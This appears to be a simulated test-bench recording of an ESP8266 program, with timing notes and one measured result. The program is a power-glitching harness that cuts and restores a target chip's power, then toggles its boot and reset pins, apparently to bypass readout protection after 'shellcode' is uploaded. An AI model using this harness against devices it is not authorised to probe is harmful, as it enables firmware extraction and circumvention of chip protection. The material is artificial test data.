
Recording of a program running on a simulated ESP8266 (Wemos D1 mini). On the bench: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench; at power-on: GPIO 13 (NRST) LOW.

Above: at 1.2 s.
1.3 s: "1" received over Serial
At 2.8 s:

3.8 s: "1" received over the second serial link
Timing chart, 0 to 6.8 s (numbered marks = the images above; inputs shaded):


The program:

main.cpp
```cpp
#include <Arduino.h>
#include <SoftwareSerial.h>

#define DUT_TX 12 // D6
#define DUT_RX 14 // D5

#define POW1 4 // D2
#define POW2 5 // D1

#define NRST 13 // D7
#define BOOT0 0 // D3

SoftwareSerial DutSerial;

inline void IRAM_ATTR DutPowerOn() {
  GPIO_REG_WRITE(GPIO_OUT_W1TS_ADDRESS, ((1 << POW1) | (1 << POW2)));
}

inline void IRAM_ATTR DutPowerOff() {
  GPIO_REG_WRITE(GPIO_OUT_W1TC_ADDRESS, ((1 << POW1) | (1 << POW2)));
}

void setup() {
  pinMode(POW1, OUTPUT);
  pinMode(POW2, OUTPUT);
  pinMode(BOOT0, OUTPUT);
  pinMode(NRST, INPUT);
  digitalWrite(BOOT0, 1);
  DutPowerOn();

  Serial.begin(115200);
  DutSerial.begin(9600, SWSERIAL_8N1, DUT_RX, DUT_TX, false);
  Serial.println("ESP ready, press any button when shellcode is uploaded and debugger is PHYSICALLY disconnected\n");
}

boolean haveReadChar = false;
boolean alreadyGlitched = false;

void IRAM_ATTR serialParsingLoop() {
  if(DutSerial.available() > 0) {
    Serial.write(DutSerial.read());
  }
  if(Serial.available() > 0) {
    haveReadChar = true;
    DutSerial.write(Serial.read());
  }
}

void IRAM_ATTR glitch() {
  Serial.printf("NRST before glitching = %d\n", digitalRead(NRST));
  noInterrupts();
  uint32_t startCycles = ESP.getCycleCount();
  DutPowerOff();
  while(digitalRead(NRST));
  DutPowerOn();
  uint32_t cycles = ESP.getCycleCount() - startCycles;
  interrupts();
  Serial.printf("Glitched in %d cycles\n", cycles);
  delay(1000);
  digitalWrite(BOOT0, 0);
  pinMode(NRST, OUTPUT);
  digitalWrite(NRST, 0);
  delay(500);
  digitalWrite(NRST, 1);
  pinMode(NRST, INPUT);
}

void IRAM_ATTR loop() {
  serialParsingLoop();
  if (alreadyGlitched || !haveReadChar) {
    return;
  }
  alreadyGlitched = true;
  glitch();
}
```

Measured:
- after the input at 1.3 s, GPIO 0 (BOOT0): HIGH → LOW after 1.0 s
